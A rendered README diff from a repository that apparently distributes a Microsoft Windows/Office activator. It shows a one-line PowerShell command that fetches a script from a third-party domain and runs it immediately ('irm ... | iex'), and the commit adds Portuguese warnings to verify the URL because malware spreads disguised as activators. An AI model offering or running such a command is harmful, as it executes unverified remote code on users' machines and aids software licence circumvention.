

Before and after one commit to wssolinfor/Microsoft-Activation-Wsinc, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/README.md
+++ b/README.md
@@ -30,6 +30,9 @@ irm cdn.winpett.com.br/assets/scripts/ps/wsinc-activate.win.office | iex
 > [!NOTE]
 > - Esta ferramenta está hospedada em domínio próprio e não depende de hospedagem de terceiros.
 > - O uso deste Ativador é apenas para usuários autenticados!
+> - O comando <code>IRM</code> no PowerShell baixa arquivo(s) de URL(s) especificada(s) e o comando <code>IEX</code> o executa.
+> - Sempre verifique a URL antes de executar o comando informado acima e confirme a sua origem.
+> - Portanto, tenha cuidado! Pois alguns espalham malware disfarçado de ativadores usando URLs diferentes no comando <code>IRM</code>.
 
 ---
 
```
